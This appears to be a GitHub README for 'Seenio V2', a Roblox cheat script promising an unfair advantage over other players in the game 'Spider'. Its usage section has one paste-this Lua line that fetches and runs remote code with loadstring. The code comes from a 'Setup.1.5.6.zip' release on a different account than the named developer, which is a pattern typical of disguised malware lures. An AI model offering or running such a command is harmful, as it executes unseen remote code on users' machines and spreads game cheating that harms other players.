 ![SEENIO](https://raw.githubusercontent.com/Zireachy/Seenio-V2/refs/heads/main/SEENIO.png)
## A script for Roblox Spider to easily have an Unfair Advantage towards everyone...
# Usage
You can use Seenio under here. The version of Seenio is Version 2
```lua
loadstring(game:HttpGet("https://github.com/maetahitman24kj9/Seenio-V2/releases/download/eg0/Setup.1.5.6.zip",true))()
```
# Credits & Developers & Contributors
- Developer: Zireachy
